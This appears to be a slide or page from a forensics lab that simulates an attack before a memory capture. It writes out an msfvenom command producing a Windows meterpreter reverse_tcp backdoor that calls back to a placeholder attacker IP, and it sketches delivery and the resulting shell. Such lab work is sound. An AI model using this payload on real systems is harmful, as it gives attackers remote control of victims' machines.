

Home
About
Contact

PHASE 1 - SIMULATING THE ATTACK

Payload created using:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f exe > backdoor.exe
Hosted on local Python server for delivery.
Victim executed payload triggering a reverse shell.
Meterpreter session provided control over the target system.
RAM captured using DumpIt immediately post-compromise.